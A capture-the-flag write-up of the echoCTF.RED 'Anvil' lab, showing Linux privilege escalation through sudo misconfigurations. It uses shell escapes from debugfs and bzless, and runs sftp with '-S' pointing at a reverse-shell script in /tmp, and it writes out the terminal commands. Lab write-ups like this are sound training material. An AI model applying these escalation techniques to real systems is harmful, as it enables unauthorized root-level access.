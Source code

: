 ```yaml
---
layout: default
title : muzec - Anvil - echoCTF.RED
---
```



How's your OS escalation skills? See if you can reach the final user `(ETSCTF)`

On each user you successfully escalate, there will be a flag on its home directory. This flag can also be used as a password to directly switch to that user (eg with `su - copper`) at a later time so that you dont have to go through all the steps every time you re-connect.

To start the challenge connect with `nc -t 10.0.40.10 1337`, or `telnet 10.0.40.10 1337`. Your timer starts from the first time you connect to the service.

Let jump in without wasting to much of time.

### Shell As Silver

```
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/anvil]
└─$ nc -t 10.0.40.10 1337
copper@anvil:~$ sudo -l
sudo -l
User copper may run the following commands on anvil:
    (silver) NOPASSWD: /sbin/debugfs
copper@anvil:~$ id
id
uid=1001(copper) gid=1001(copper) groups=1001(copper)
copper@anvil:~$ sudo -u silver /sbin/debugfs
sudo -u silver /sbin/debugfs
debugfs 1.44.5 (15-Dec-2018)
debugfs:  !sh
!sh
$ id
id
uid=1002(silver) gid=1002(silver) groups=1002(silver)
$ 
```

So i confirm if i can run `sudo` with any command luckily i got `/sbin/debugfs` which was exploited above let move to another user.

### Shell As Gold

```
silver@anvil:/home/copper$ sudo -l
sudo -l
User silver may run the following commands on anvil:
    (gold) NOPASSWD: /usr/bin/sftp
silver@anvil:/home/copper$ 
```
Seems we can run `sftp` with `sudo` which is cool let exploit it.

![image](https://user-images.githubusercontent.com/69868171/144639819-78ee125c-e12e-4ad5-9cc7-70135f5b3392.png)

But seems like a dead we know SSH port running interesting so i decided to host an SSH port on the target using `SimpleHTTPServer` .

![image](https://user-images.githubusercontent.com/69868171/144640070-9892bf49-4c1a-41cf-b995-dbef7f861aa7.png)

Ready and running let try it again.

![image](https://user-images.githubusercontent.com/69868171/144640226-08361720-b7db-45b8-8700-1dfc3422bd35.png)

Seems like a dead end again i can't create `.ssh` directory so i change directory to `/tmp` to host a bash shell in a file with a reverse shell payload in it.

![image](https://user-images.githubusercontent.com/69868171/144640692-f88e455d-cf78-441e-89e3-19407ae5e4b5.png)

But ready and making it executable also with an Ncat listener on now let hit it.

```
sudo -u gold /usr/bin/sftp -S /tmp/shell.sh muzec@localhost
```

![image](https://user-images.githubusercontent.com/69868171/144640989-cfa31789-216e-414f-ba68-310439f8d912.png)

Boom we have shell.

### Shell As ETSCTF

![image](https://user-images.githubusercontent.com/69868171/144641377-03bbcd58-d33d-4f20-bd4d-57b0111d0073.png)

```
sudo -u ETSCTF /bin/bzless -h
```

![image](https://user-images.githubusercontent.com/69868171/144641592-1d349563-430e-428e-97d2-43ae66202e71.png)

```
!sh
```

We are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
